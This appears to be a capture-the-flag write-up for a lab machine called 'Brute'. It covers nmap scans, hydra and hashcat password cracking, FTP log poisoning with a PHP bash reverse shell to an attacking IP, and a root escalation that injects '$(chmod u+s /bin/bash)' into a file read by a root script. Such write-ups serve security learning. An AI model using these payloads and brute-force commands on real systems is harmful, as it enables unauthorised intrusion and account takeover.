

# Enumeration
Let's start our autorecon scan. We quickly find ports 21, 22, 80, and 3306 open.


We double check with some nmap scans.


```
$ nmap -T4 -sC -sV --version-all --osscan-guess -Pn -p 21,22,80,3306 10.10.143.178
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-30 15:58 EDT
Nmap scan report for 10.10.143.178
Host is up (0.10s latency).

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c7:72:14:64:24:3c:11:01:e9:50:73:0f:a4:8c:33:d6 (RSA)
|   256 0e:0e:07:a5:3c:32:09:ed:92:1b:68:84:f1:2f:cc:e1 (ECDSA)
|_  256 32:f1:d2:ec:ec:c1:ba:22:18:ec:02:f4:bc:74:c7:af (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Login
|_http-server-header: Apache/2.4.41 (Ubuntu)
3306/tcp open  mysql   MySQL 8.0.28-0ubuntu0.20.04.3
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.28-0ubuntu0.20.04.3
|   Thread ID: 65
|   Capabilities flags: 65535
|   Some Capabilities: LongPassword, Speaks41ProtocolOld, ConnectWithDatabase, IgnoreSigpipes, Support41Auth, SupportsTransactions, SwitchToSSLAfterHandshake, IgnoreSpaceBeforeParenthesis, FoundRows, ODBCClient, Speaks41ProtocolNew, InteractiveClient, DontAllowDatabaseTableColumn, SupportsLoadDataLocal, SupportsCompression, LongColumnFlag, SupportsMultipleResults, SupportsAuthPlugins, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: \x07`r\Q\x08[ZAJ>\x19VahMvj\x1Fm
|_  Auth Plugin Name: caching_sha2_password
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=MySQL_Server_8.0.26_Auto_Generated_Server_Certificate
| Not valid before: 2021-10-19T04:00:09
|_Not valid after:  2031-10-17T04:00:09
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.82 seconds
```

We see that MySQL is running on port 3306. Let's run another scan on this port, this time with some scripts.

```
nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 10.10.143.178
```


Let's check the web server. There we find a login form.


Given the name of the room, let's try to brute force the services we found with hydra. We'll brute force mysql; the default username is `root`, so we just have to guess the password.

```
hydra -l root -P /usr/share/wordlists/rockyou.txt 10.10.143.178 mysql
```

After a few seconds, we get a hit:


Let's access mysql by using `mysql -h 10.10.143.178 -u root -p` and then entering the password we found.


Within the mysql prompt, we use `show databases;` to list the databases.


The `website` database seems relevant. We access it with `use website;`. Using `show tables;` gives us a `users` table.


`describe users;` then gives information about the columns in the `users` table.


Now we use `select * from users` to grab all column data. We find a user, Adrian, and what appears to be a hashed password.


Running the hash through a hash type identifier tells us it is a bcrypt $2*$, Blowfish (Unix) hash. Now we can use hashcat to crack the hash. Checking the hashcat examples page gives us the associated hash type number.


Now let's run hashcat. Here I ran hashcat on my Windows machine since it's faster (and hashcat sometimes has problems running on a VM). 

```cmd
hashcat.exe -m 3200 -a 0 -o brute.txt brutehash.txt rockyou.txt
```

After a few seconds, we get a hit. The output (which in this case I called `brute.txt`) contains the cracked password.


Now we can finally log in to the website using Adrian's credentials.


Clicking the log button opens a webpage with a list of what appear to be login attempts.


Here I noticed that the IP in the log is my machine's IP. While messing around, I was trying to access the ftp server as anonymous. So this appears to a log of attempts to access the ftp server. We will make use of this logging feature to gain an initial foothold.
<br>

# Exploitation
Let's begin looking for an exploit. Since the web server is running php, we'll tell the server to execute a php reverse shell payload via the ftp log; this is often referred to as [log poisoning](https://dheerajdeshmukh.medium.com/get-reverse-shell-through-log-poisoning-with-the-vulnerability-of-lfi-local-file-inclusion-e504e2d41f69).

Let's try to ftp into the server. When prompted for a user and password, we will enter the following payload, which we can find through a bit of Googling.

```
"<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<attacking IP>/9999 0>&1'"); ?>"
```


Set up a netcat listener with `nc -lvnp 9999`. Clicking on the "Log" button will attempt to pull up the log, but the web page will hang. If we check our listener, we will see that we've caught a reverse shell!


Let's look around. There are some potentially interesting files in Adrian's home directory.


We can read the `.reminder` file:

```txt
Rules:
best of 64
+ exclamation

ettubrute
```

"Rules" in the context of brute forcing refer to password generating rules. Best of 64 is likely referring to [this particular rule](https://github.com/hashcat/hashcat/blob/master/rules/best64.rule). The reminder suggests that we should [create a wordlist](https://infinitelogins.com/2020/11/16/using-hashcat-rules-to-create-custom-wordlists/) by applying the given rules to the string `ettubrute`. 

First, we create a `wordlist1.txt` file containing the lone string `ettubrute`. We then run
```
hashcat64.bin wordlist1.txt -r /usr/share/hashcat/rules/best64.rule --stdout > wordlist2.txt
```
to generate `wordlist2.txt`, which is obtained by applying the [best64](https://github.com/hashcat/hashcat/blob/master/rules/best64.rule) hashcat rule. Here I had to use an older versino of hashcat, since the current version didn't want to run on my VM.

The reminder also tells us to add an exclamation mark, presumably at the end of each word in our list. We'll have to create our own rule file for this, which we call `append_exc.txt`. It consists of two lines:

```txt
:
$!
```

This will produce a new list consisting of all words in the old list, plus all words with an exclamation mark appended at the end. We use

```txt
./hashcat-cli64.bin ~/Documents/THM/Brute/wordlist2.txt -r ~/Documents/THM/Brute/append_exc.txt --stdout > ~/Documents/THM/Brute/wordlist3.txt 
```

to generate the wordlist. Great! Now we (presumably) have the correct wordlist. Let's use this to try to brute force one of the other services we found with adrian as the user. Let's use hydra to brute force ftp:

`hydra -l adrian -P wordlist3.txt 10.10.136.168 ftp`


We quickly find the password. Now let's log in to the ftp server using the credentials we found.


Looking around, we find two files: a hidden notes file, and a script. We'll move them to our local machine with `get`, then read the contents.


This will be relevant later, but for now let's move on and try to brute force ssh.

`hydra -l adrian -P wordlist3.txt 10.10.136.168 ssh -t 4`


Again, hydra quickly finds the password. Great! Now we can ssh into the machine as adrian.


From here, we can now read the `user.txt` flag which we found a while ago.


<br>

# Post-Exploitation
Now that we have access to Adrian's files, let's look around. In the home directory, we have two interesting files.




As indicated in the note we found earlier, the `punch_in` file updates every minute. We also have the script that we found earlier when investigating the ftp server. Let's take a look at it again.


So, this script reads every line from the `punch_in` file above and prints it. We can use this to our advantage by editing the `punch_in` file (as we have write permissions) and inserting malicious code in a new line. When the script runs and gets to our new line, it will execute our command. Presumably, this will happen with root privileges (this is a guess based on that fact that root owns the `punch_in.sh` script). We will use the command  `echo '$(chmod u+s /bin/bash)' >> punch_in` to append a new line which sets the SUID bit for the bash binary.

After a brief wait, we check the permissions on the `/bin/bash` file and we verify that the SUID bit has indeed been set.


Now we can use `/bin/bash -p` to run bash with elevated privileges.


From here, we can obtain the `root.txt` flag.

